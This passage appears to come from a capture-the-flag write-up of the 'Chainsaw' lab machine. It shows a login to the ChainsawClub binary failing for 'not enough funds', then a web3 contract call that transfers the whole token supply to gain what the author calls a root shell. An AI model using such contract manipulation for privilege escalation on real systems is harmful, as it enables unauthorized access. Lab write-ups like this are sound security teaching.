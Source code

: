 
Now I can log in, but a new error:

    
    
    bobby@chainsaw:~/projects/ChainsawClub$ ./ChainsawClub 
    
          _           _
         | |         (_)
      ___| |__   __ _ _ _ __  ___  __ ___      __
     / __| '_ \ / _` | | '_ \/ __|/ _` \ \ /\ / /
    | (__| | | | (_| | | | | \__ \ (_| |\ V  V /
     \___|_| |_|\__,_|_|_| |_|___/\__,_| \_/\_/
                                                club
    
    - Total supply: 1000
    - 1 CHC = 51.08 EUR
    - Market cap: 51080 (€)
    
    [*] Please sign up first and then log in!
    [*] Entry based on merit.
    
    Username: 0xdf
    Password: 
    [*] Not enough funds!
    

Since I see that the total supply is 1000, I’ll transfer all of it:

    
    
    >>> contract.functions.transfer(1000).transact()
    HexBytes('0x24f7591dc75e60a1f82381497457a0e91946aee7d440f5f7339ba3da39b4fd5e')
    

Now when I log in, I get a root shell:

    
    
    bobby@chainsaw:~/projects/ChainsawClub$ ./ChainsawClub 
    
          _           _
         | |         (_)
      ___| |__   __ _ _ _ __  ___  __ ___      __
     / __| '_ \ / _` | | '_ \/ __|/ _` \ \ /\ / /
    | (__| | | | (_| | | | | \__ \ (_| |\ V  V /
     \___|_| |_|\__,_|_|_| |_|___/\__,_| \_/\_/
                                                club
    
    - Total supply: 1000
    - 1 CHC = 51.08 EUR
    - Market cap: 51080 (€)
    
    [*] Please sign up first and then log in!
    [*] Entry based on merit.
    
    Username: 0xdf
    Password: 
    